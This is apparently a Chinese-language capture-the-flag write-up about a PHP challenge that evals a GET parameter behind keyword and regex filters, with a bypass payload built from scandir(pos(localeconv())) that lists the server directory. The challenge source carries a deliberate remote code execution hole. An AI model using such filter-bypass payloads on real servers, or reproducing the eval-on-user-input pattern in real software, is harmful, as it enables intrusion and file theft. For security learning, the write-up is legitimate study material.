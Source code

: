 源码

```php
<?php
header("Content-Type: text/html;charset=utf-8");
include "flag.php";
echo "flag在哪里呢？<br>";
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|cu|readfile|flip|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
flag在哪里呢？
```

构造些能绕过的payload.

```
pos(localeconv()) => '.'
scandir(pos(localeconv())) => scandir('.')
```

看一下当前目录下的文件，`?exp=echo(var_dump(scandir(pos(localeconv()))));`

```
./
?> array(6) { 
[0]=> string(1) "." 
[1]=> string(2) ".." 
[2]=> string(4) ".git" 
[3]=> string(5) "1.php" 
[4]=> string(8) "flag.php" 
[5]=> string(9) "index.php"
}
```
